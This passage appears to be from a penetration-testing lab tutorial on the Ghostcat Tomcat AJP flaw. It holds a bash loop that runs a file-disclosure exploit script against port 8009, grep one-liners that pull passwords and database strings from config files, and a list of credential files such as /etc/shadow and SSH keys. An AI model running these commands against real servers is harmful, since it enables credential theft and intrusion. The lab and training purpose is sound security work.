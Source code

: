 ```bash
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

#### Advanced File Disclosure Targets
```bash
# High-value configuration files
target_files=(
    "WEB-INF/web.xml"                    # Application configuration
    "WEB-INF/classes/application.properties"  # Spring Boot configuration
    "WEB-INF/classes/config.properties"       # Custom application config
    "META-INF/context.xml"                    # Tomcat context configuration
    "WEB-INF/tomcat-users.xml"               # User credentials (if accessible)
    "WEB-INF/classes/hibernate.cfg.xml"      # Database configuration
    "WEB-INF/classes/log4j.properties"       # Logging configuration
)

# Systematic file disclosure
for file in "${target_files[@]}"; do
    echo "[+] Attempting to read: $file"
    python2.7 tomcat-ajp-lfi.py app-dev.inlanefreight.local -p 8009 -f "$file"
    echo "----------------------------------------"
done

# Database connection string extraction
python2.7 tomcat-ajp-lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/classes/application.properties | grep -i "database\|jdbc\|password"

# Look for hardcoded credentials
python2.7 tomcat-ajp-lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml | grep -i "password\|secret\|key"
```

### Ghostcat Limitations and Constraints

#### File System Scope Restrictions
```bash
# Ghostcat vulnerability limitations:
# 1. Only files within webapps directory accessible
# 2. Cannot read system files like /etc/passwd
# 3. Path traversal limited to application context
# 4. Requires knowledge of target file structure

# Files NOT accessible via Ghostcat:
# /etc/passwd                  # System password file
# /etc/shadow                  # Shadow password file  
# /root/.ssh/id_rsa           # SSH private keys
# /var/log/auth.log           # System logs
# /home/user/.bash_history    # User command history
```